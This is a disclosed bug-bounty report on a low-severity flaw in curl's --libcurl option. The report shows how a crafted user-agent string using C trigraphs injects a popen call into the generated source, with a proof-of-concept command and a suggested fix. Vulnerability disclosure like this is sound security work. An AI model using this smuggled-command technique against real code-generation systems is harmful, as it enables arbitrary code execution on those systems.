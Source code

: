 # --libcurl code injection via trigraphs

## Report Details
- **Report ID**: 1548535
- **URL**: https://hackerone.com/reports/1548535
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-04-23T02:47:28.741Z
- **Disclosed**: 2022-04-24T22:07:12.698Z

## Reporter
- **Username**: nyymi
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: curl

## Vulnerability Information
## Summary:

curl command `--libcurl` option can be tricked to generate C code that when compiled contains arbitrary code execution.

## Steps To Reproduce:
  1. `curl --libcurl client.c --user-agent "??/\");char c[]={'i','d',' ','>','x',0},m[]={'r',0};fclose(popen(c,m));//" http://example.invalid`
  2. `gcc -trigraphs  client.c -lcurl -o client`
  3.  `./client`
  4. `ls -l x`

Note: In this PoC older compiler is simulated by passing `-trigraphs` option to gcc.

To remedy this issue `?` chars should be quoted to `\?` in the generated strings.

## Impact

Code injection to generated source code.

However, the impact of this vulnerability is minimal due to difficultly in finding scenarios where it would be practically exploitable. To be even remotely plausible curl command should somehow be hooked into a system that uses `--libcurl` to generate, compile and finally execute the compiled code *while* also accepting external user input for the curl command options. This seems extremely unlikely to happen in real life.

Trigraph support has also largely been disabled by now (gcc and clang have it disabled by default at least).

I don't really mind if this is found to be "not a vulnerability" (or only self-exploitable). In this case just close this H1 ticket and create a regular GitHub issue / or fix it direct.

## Attachments
No attachments
